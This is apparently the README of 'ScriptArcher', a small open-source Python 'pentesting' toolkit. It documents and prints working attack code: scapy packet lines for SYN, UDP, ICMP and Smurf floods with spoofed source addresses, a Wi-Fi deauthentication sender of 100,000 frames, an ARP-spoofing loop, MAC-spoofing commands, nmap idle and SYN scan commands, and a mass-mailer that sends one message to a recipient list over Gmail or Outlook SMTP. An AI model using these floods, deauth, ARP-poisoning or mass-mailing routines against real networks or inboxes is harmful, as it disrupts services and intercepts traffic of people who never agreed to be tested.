 ##ScriptArcher Open source small project for pentesting : 
### Options :
1. Get your ipv6
2. Mass Mailer Attack
3. Scan :
   - 1.Port scanning
   - 2.IP scanning
   - 3.IP range scanning
   - 4.Scan popular ports
   - 5.Sweep Network
   - 6.Zombie scan
   - 7.Half open scan
4. DDoS :
   - 1.ICMP attack
   - 2.Smurf attack
   - 3.TCP state existing
   - 4.UDP flooding
5. Deauthentication Attacks
6. Mac Spoofing
7. Arp spoofing
8. dBm Analyzer
---
### Dependencies:
Libraries :
- scapy
- socket
- colorama
- contextlib
- email
- getpass
- requests

Tools :
- iw
- net-tools
- nmap
---
### How it works :
> Brief descriptions :

- #### IPv6 finder tool :

	By sending a request to https://www.whoismyisp.org/, it will receive your IP and ISP information .
```
re=get("https://www.whoismyisp.org/")
```
- #### Mass Mailer Attack tool :

	Receives an email from you as the sender and a list of recipients then enters your email and sends the same email to all emails in the list.

	**syntax of mailing file **:
	```
	example@example.com
	example2@example.com
	example3@example.com
	and ...
	```
	It then asks you for an smtp server address including port and address.
	A list of the most popular smtp servers:
	```
	Gmail : smtp.gmail.com 587
	Outlook(hotmail) : smtp-mail.outlook.com 587
	Yahoo : smtp.mail.yahoo.com 465
	```
	It will then ask you for the original text of the email (**enter the ^C to finish writing**)

	####***Note ***:
	To use this tool, you must enable the Less secure app access option in your Google Account settings. To activate, go to the following link:
	https://www.google.com/settings/security/lesssecureapps
	If you do not know what Less secure app access is, refer to the following link:
	https://support.google.com/accounts/answer/6010255?hl=en

- #### Scan :
This part of the tool performs a series of scans using NMAP.
#####Options :
	1.  **Port scanning** :
	This part of the tool scans a range of ports and displays or saves the result.
	Nmap command :
			nmap -p {rangePort} {host} -o {fileName}
	2. **IP scanning** :
	This part of the tool performs a typical scan and displays or saves the result.
	Nmap command :
			nmap {host} -o {fileName}
	3. **IP range scanning** :
	Scans a range of IPs (basically displays or stores any host that is active in the range of IPs)
	Nmap command :
			nmap -sp {host}* -o {fileName
	4. ** Scan popular ports** :
	Nmap command :
			nmap --top-ports {number} {host} -o {fileName}
	5. **Sweep Network** :
	Nmap “ping sweep” is a method to discover connected devices in a network using the nmap security scanner, for a device to be discovered we only need it to be turned on and connected to the network .
	Nmap command :
			nmap -sn {host}/{netmask} -o {fileName}
	6. **Zombie scan** :
	Idle scan, as it has become known, allows for completely blind port scanning. Attackers can actually scan a target without sending a single packet to the target from their own IP address! Instead, a clever side-channel attack allows for the scan to be bounced off a dumb “zombie host”. Intrusion detection system (IDS) reports will finger the innocent zombie as the attacker. Besides being extraordinarily stealthy, this scan type permits discovery of IP-based trust relationships between machines ...[more](https://nmap.org/book/idlescan.html "more")
	
	Nmap command :
			nmap -Pn -sI {Zombie host} {Target host} -o {fileName}
	7. **Half open scan** :
	SYN packets request a response from a computer, and an ACK packet is a response. In a typical TCP transaction, there is an  SYN, an ACK from the service, and a third ACK confirming message received.
This scan is fast and hard to detect because it never completes the full TCP 3 way-handshake. The scanner sends an SYN message and just notes the SYN-ACK responses. The scanner doesn’t complete the connection by sending the final ACK: it leaves the target hanging.
Any SYN-ACK responses are possibly open ports. An RST(reset) response means the port is closed, but there is a live computer here. No responses indicate SYN is filtered on the network. An ICMP (or ping) no response also counts as a filtered response.
	Nmap command :
			nmap -sS {host} -o {fileName}

- #### DDoS :
This tool uses scapy to send flooding packets to target .
##### Options :
1. **ICMP attack** :
This option send flood of normal icmp packets to target .
Scapy command : 
		packet = IP(dst=Dst, src=f"{randint(1,200)}.{randint(1,200)}.{randint(1,200)}.{randint(1,200)}")/TCP(sport=randint(1024 ,49151), dport=Dport)
		send(packet)
2. **Smurf attack**:
The Smurf attack is a distributed denial-of-service attack in which large numbers of Internet Control Message Protocol (ICMP) packets with the intended victim's spoofed source IP are broadcast to a computer network using an IP broadcast address. Most devices on a network will, by default, respond to this by sending a reply to the source IP address. If the number of machines on the network that receive and respond to these packets is very large, the victim's computer will be flooded with traffic. This can slow down the victim's computer to the point where it becomes impossible to work on...[more](https://en.wikipedia.org/wiki/Smurf_attack "more")
Scapy commands :
		TCP :packet = IP(dst=Dst, src=Src)/TCP(sport=Sport, dport=Dport,flags="S")
		UDP : packet = IP(dst=Dst, src=Src)/UDP(sport=Sport, dport=Dport)
		ICMP : packet = IP(dst=Dst, src=Src)/ICMP()
3. **TCP state existing** :
In a SYN flood attack, the attacker sends repeated SYN packets to every port on the targeted server, often using a fake IP address. The server, unaware of the attack, receives multiple, apparently legitimate requests to establish communication. It responds to each attempt with a SYN-ACK packet from each open port.
Scapy command :
		packet = IP(dst=Dst, src=Src)/TCP(sport=Sport, dport=Dport,flags="S")
4. **UDP flooding **:
A UDP flood is a type of denial-of-service attack in which a large number of User Datagram Protocol (UDP) packets are sent to a targeted server with the aim of overwhelming that device’s ability to process and respond. The firewall protecting the targeted server can also become exhausted as a result of UDP flooding, resulting in a denial-of-service to legitimate traffic.
Scapy command :
		Random mode : packet = IP(dst=Dst, src=f"{randint(1,200)}.{randint(1,200)}.{randint(1,200)}.{randint(1,200)}")/UDP(sport=randint(4096,65535), dport=port)
		Normal attack :packet = IP(dst=Dst, src=Src)/UDP(sport=Sport, dport=port)
- ####Deauthentication Attacks :
	[Deauthentication Attacks wikipedia page](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack "Deauthentication Attacks wikipedia page")
	Scapy command :
		dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
		packet = RadioTap()/dot11/Dot11Deauth(reason=7)
		sendp(packet, inter=0.1, count=100000, iface=ifc, verbose=1)
- ####Mac Spoofing :
MAC spoofing is a technique for changing a factory-assigned Media Access Control (MAC) address of a network interface on a networked device. The MAC address that is hard-coded on a network interface controller (NIC) cannot be changed. However, many drivers allow the MAC address to be changed. Additionally, there are tools which can make an operating system believe that the NIC has the MAC address of a user's choosing. The process of masking a MAC address is known as MAC spoofing. Essentially, MAC spoofing entails changing a computer's identity, for any reason...[more](https://en.wikipedia.org/wiki/MAC_spoofing "more")
Shell command :
			sudo ifconfig {interfaceName} down
			sudo ifconfig {interfaceName} hw ether {new mac}
			sudo ifconfig {interfaceName} up
- #### Arp spoofing :
[Arp spoofing wikipedia page](https://en.wikipedia.org/wiki/ARP_spoofing "Arp spoofing wikipedia page")
Code :
```
target_ip=input("\n\nEnter the target ip : ")
            spoof_ip=input("\nEnter the spoof ip : ")
            packet = Ether(dst = "ff:ff:ff:ff:ff:ff")/ ARP(pdst = target_ip)
            result = srp(packet , verbose = 0)
            resMac=result[0][0][1].hwsrc
            print(resMac)
            while 1:
                target_mac = resMac
                packet = Ether(dst = target_mac) / ARP(psrc=spoof_ip , pdst=target_ip,hwdst = target_mac , op = "is-at")
                sendp(packet , verbose = 0)
                print("[*] Packet send !")
```
- ####dBm Analyzer :
	[What is dbm(click) ?](https://en.wikipedia.org/wiki/DBm "What is dbm ?")
	
	The dBm Analyzer tool is used to receive the dBm signal and display it .
	Shell command :
			iw dev {interface name} scan
	We are given a lot of information using the above command, but this tool separates and displays the DBM section from the rest of the information (this information is constantly updated)
---
### Installation :
```
git clone https://github.com/manikamran/ScriptArcher.git
sudo python3 install.py
```
-----

>Resources used: [varonis.com](https://www.varonis.com/blog/port-scanning-techniques "varonis.com") , [linuxhint.com](https://linuxhint.com/nmap_ping_sweep/ "linuxhint.com") , [nmap.org](http://nmap.org "nmap.org") , [en.wikipedia.org](http://en.wikipedia.org "en.wikipedia.org") , [cloudflare.com](https://www.cloudflare.com/learning/ddos/udp-flood-ddos-attack/ "cloudflare.com")
